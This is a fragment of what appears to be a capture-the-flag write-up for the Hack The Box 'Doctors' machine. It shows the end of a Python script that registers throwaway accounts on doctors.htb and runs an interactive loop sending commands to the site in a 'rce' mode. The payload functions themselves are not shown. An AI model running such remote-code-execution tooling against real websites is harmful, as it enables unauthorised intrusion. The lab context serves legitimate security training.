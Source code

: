 ```py
	else:
		output = res.content.decode().split(sep)[1]
		print(f'{"-"*30}\n{html.unescape(output)}\n{"-"*30}')

def check_session(s):
	try:
		url = "http://doctors.htb/home"
		res = s.get(url=url)
		if b'New Message' in res.content:
			return True
		else:
			return False
	except:
		return False
user, email = create_user()
s = login(user, email)
cmd = ""
mode = 0
while True:
	if not s or not check_session(s) or cmd == "restart":
		try:
			print("[-]User account expired")
			cmd = ""
			user, email = create_user()
			s = login(user, email)
		except:
			print("[-]Errr")
			continue
	else:
		try:
			cmd = input(">")
			if cmd == "restart":
				continue
			if cmd == "exit":
				break
			if cmd == "rce":
				print("[+]RCE mode enabled")
				mode = 1
				continue
			if cmd == "python":
				print("[-]RCE mode disabled")
				mode = 0
				continue
			s, sep = execute_py(s, cmd, mode)
			if s:
				fetch_result(s,sep) 
				delete_post(s)
		except:
			print('[-]Errrrr')
			continue
```
{% endraw %}

